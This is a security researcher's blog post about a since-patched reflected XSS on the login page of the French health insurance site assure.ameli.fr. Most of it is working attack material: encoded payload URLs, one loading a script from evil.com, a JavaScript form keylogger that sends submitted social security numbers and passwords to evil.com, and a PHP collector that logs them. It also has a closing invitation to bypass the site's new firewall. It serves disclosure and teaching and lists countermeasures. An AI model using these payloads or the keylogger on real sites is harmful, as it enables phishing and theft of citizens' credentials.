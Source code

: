 ```yaml
---
layout: post
title:  "A fun case of XSS and other web concepts"
date:   2017-07-25
categories: web
---
```

Hello folks,  
  
I would like to share with you a practical case of reflected XSS while i was looking at my national health service account. Right now the XSS has been patched (we have an efficient dedicated national service where we can report such issues).  
  
**What is the issue:**  
A reflected [XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)) in the login field at the authentication page from the website https://assure.ameli.fr where all french citizen are consulting their social security account. Some digits are required but setting some alphacharacters as login will return the string in uppercase.  
  
**Where is the issue**  
So i set:  
![image1]({{ site.url }}/public/images/xss-practical-case/image1.png)  
  
And i got:  
```html
<form name="connexionCompteForm" id="connexioncompte_2connexionCompteForm" method="post" action="https://assure.ameli.fr:443/PortailAS/appmanager/PortailAS/assure?_nfpb=true&amp;_windowLabel=connexioncompte_2&amp;connexioncompte_2_actionOverride=%2Fportlets%2Fconnexioncompte%2Fvalidationconnexioncompte&amp;_pageLabel=as_login_page" class="r_cnx_form">
...
<input id="connexioncompte_2nir_as" type="text" value="THEPOSTLOGIN" maxlength="13" size="13" placeholder="Mon numéro de sécurité sociale" title="Mon numéro de sécurité sociale" tabindex="3" name="connexioncompte_2numSecuriteSociale" />
...
</form>
```  
  
Let's try something else with the login **toto<>"'();/\:**:  
```
<input id="connexioncompte_2nir_as" type="text" value="TOTO<>"'();/\" maxlength="13" ...
```
  
No escaping, no sanitizing or HTML encoding but we will have to deal with UPPERCASE. HTML is not case sensitive but javascript is, so we will do some HEX encoding for the javascript part.  
  
**First payload:**  
We can test the XSS thanks to this payload (alert):  
```
https://assure.ameli.fr/PortailAS/appmanager/PortailAS/assure?connexioncompte_2numSecuriteSociale=" /><IMG SRC=X ONERROR=&#x61;&#x6C;&#x65;&#x72;&#x74;(&#x64;&#x6F;&#x63;&#x75;&#x6D;&#x65;&#x6E;&#x74;&#x2E;&#x64;&#x6F;&#x6D;&#x61;&#x69;&#x6E;) hidden><nimp "&connexioncompte_2codeConfidentiel=&connexioncompte_2actionEvt=connecter
```
  
Full payload url encoded:  
```
https://assure.ameli.fr/PortailAS/appmanager/PortailAS/assure?connexioncompte_2numSecuriteSociale=%22%20%2F%3E%3CIMG%20SRC%3DX%20ONERROR%3D%26%23x61%3B%26%23x6C%3B%26%23x65%3B%26%23x72%3B%26%23x74%3B(%26%23x64%3B%26%23x6F%3B%26%23x63%3B%26%23x75%3B%26%23x6D%3B%26%23x65%3B%26%23x6E%3B%26%23x74%3B%26%23x2E%3B%26%23x64%3B%26%23x6F%3B%26%23x6D%3B%26%23x61%3B%26%23x69%3B%26%23x6E%3B)%20hidden%3E%3Cnimp%20%22&connexioncompte_2codeConfidentiel=&connexioncompte_2actionEvt=connecter
```
  
*But wait... you process a GET request and you were talking about a form with POST method ?*  
Yes, there but there is no server-side filter on the specific POST method.  
  
So what do we have?  
![image2]({{ site.url }}/public/images/xss-practical-case/image2.png)  
  
It works because i'm using Firefox, IE and Chrome embed a reflected XSS auditor and will prevent this kind of javascript execution. Back to the javascript part, now we will just call our own javascript file. With our next payload, we will take care to keep the webpage as it is (no error message, keeping placeholder, ...).  
  
**Second payload:**  
```
" name="connexioncompte_2numSecuriteSociale" placeholder="&#x4d;&#x6f;&#x6e;&#x20;&#x6e;&#x75;&#x6d;&#xe9;&#x72;&#x6f;&#x20;&#x64;&#x65;&#x20;&#x73;&#xe9;&#x63;&#x75;&#x72;&#x69;&#x74;&#xe9;&#x20;&#x73;&#x6f;&#x63;&#x69;&#x61;&#x6c;&#x65;" /><script src='https://evil.com/poc/poc.js'></script><nimp "
```  
  
Full payload url encoded:  
```
https://assure.ameli.fr/PortailAS/appmanager/PortailAS/assure?connexioncompte_2numSecuriteSociale=%22%20name%3D%22connexioncompte_2numSecuriteSociale%22%20placeholder%3D%22%26%23x4d%3B%26%23x6f%3B%26%23x6e%3B%26%23x20%3B%26%23x6e%3B%26%23x75%3B%26%23x6d%3B%26%23xe9%3B%26%23x72%3B%26%23x6f%3B%26%23x20%3B%26%23x64%3B%26%23x65%3B%26%23x20%3B%26%23x73%3B%26%23xe9%3B%26%23x63%3B%26%23x75%3B%26%23x72%3B%26%23x69%3B%26%23x74%3B%26%23xe9%3B%26%23x20%3B%26%23x73%3B%26%23x6f%3B%26%23x63%3B%26%23x69%3B%26%23x61%3B%26%23x6c%3B%26%23x65%3B%22%20%2F%3E%3Cscript%20src%3D%27https%3A%2F%2Fevil.com%2Fpoc%2Fpoc.js%27%3E%3C%2Fscript%3E%3Cnimp%20%22&connexioncompte_2codeConfidentiel=&connexioncompte_2actionEvt=connecter
```  
   
On our apache we are creating the web tree *POC/POC.JS* (scheme and domain name are not case sensitive). But does a little bird sing the word CORS (Cross-Origin Resource Sharing)?  
  
Here are some examples of resources which may be embedded cross-origin ([https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)):  
 - JavaScript with ```<script src="..."></script>```. Error messages for syntax errors are only available for same-origin scripts.
 - CSS with ```<link rel="stylesheet" href="...">```. Due to the relaxed syntax rules of CSS, cross-origin CSS requires a correct Content-Type header. Restrictions vary by browser: IE, Firefox, Chrome, Safari (scroll down to CVE-2010-0051) and Opera.
 - Images with ```<img>```. Supported image formats include PNG, JPEG, GIF, BMP, SVG, ...
 - Media files with ```<video>``` and ```<audio>```.
 - Plug-ins with ```<object>```, ```<embed>``` and ```<applet>```.
 - Fonts with ```@font-face```. Some browsers allow cross-origin fonts, others require same-origin fonts.
 - Anything with ```<frame>``` and ```<iframe>```. A site can use the X-Frame-Options header to prevent this form of cross-origin interaction.
  
But in fact whatever... we are owning the web server we would be able to add if it was necessary the response header ```access-control-allow-origin: *``` for any ressources.  
  
But what kind of cool javascript payload can we inject? (knowing that the JSESSIONID cookie has the flag HttpOnly so not accessible via javascript).  
  
![image3]({{ site.url }}/public/images/xss-practical-case/image3.png)  
  
We will add a callback function that will be executed once the web page forms will be submitted (allowing us to capture the credentials). Check [https://github.com/phackt/pentest/tree/master/exploits/js_keylogger](https://github.com/phackt/pentest/tree/master/exploits/js_keylogger) for source code.  
  
**POC.JS**:  
```javascript
window.onload = function () {
	for(var i=0; i<document.forms.length; i++){
	  	document.forms[i].addEventListener("submit", function() {
	  		for(e=0; e<this.elements.length; e++){
	  			keys = "[name:" + this.elements[e].name + ",value:" + this.elements[e].value + ",type:" + this.elements[e].type + "]";
	  			new Image().src = 'https://evil.com/key.php?c='+keys;
	  		}
    	}, false);
	}
}
```
  
**key.php**:  
```php
<?php
if(!empty($_GET['c'])) {
    $logfile = fopen('data.txt', 'a+');
    fwrite($logfile, $_GET['c']."\n");
    fclose($logfile);
}
?>
```  
  
So suppose you are receiving a link which exploits the XSS vulnerability and you innocently enter your credentials to check your account, the attacker will receive:  
```
[name:CONNEXIONCOMPTE_2NUMSECURITESOCIALE,value:1234567890123,type:text]
[name:connexioncompte_2codeConfidentiel,value:89769874,type:password]
[name:connexioncompte_2actionEvt,value:connecter,type:hidden]
[name:submit,value:Valider,type:submit]
```  
  
This kind of vulnerability could be part of a phishing campaign which encourages people to log in by clicking on the malicious link.  
  
**COUNTERMEASURES**:  
 - HTML Encoding (HTML entities and numeric character references) - [https://en.wikipedia.org/wiki/Character_encodings_in_HTML](https://en.wikipedia.org/wiki/Character_encodings_in_HTML)
 - Sanitizing
 - Escaping
 - White-listing
 - Explicit X-XSS-Protection header ([https://developer.mozilla.org/fr/docs/Web/HTTP/Headers/X-XSS-Protection](https://developer.mozilla.org/fr/docs/Web/HTTP/Headers/X-XSS-Protection))
 - Only POST requests for sensitive operations  
  
Blocking all cross domains requests via a Content Security Policy rule ([https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)) may be not relevant because a lot of these ressources are legitimate on a website. However we can do some subtle CSP rules in order to allow only what is needed.  
But if a web site administrator wants all content to come from the site's own origin (this excludes subdomains):  
```
Content-Security-Policy: default-src 'self'
```
  
**UPDATE 21/09/2017**:  
Apparently some waf is now blacklisting some malicious strings:  
```bash
wafw00f https://assure.ameli.fr/
...
The site https://assure.ameli.fr/ is behind a F5 BIG-IP APM
```  
  
Unfortunately the special characters are still not html encoded (test with ```'';!--"<XSS>=&{()}```).  
Feel free to try to bypass it and let me know.  
  
Web applications are really interesting because of all the concepts you have to deal with.  
  
Hope you enjoyed.  
  
Phackt.

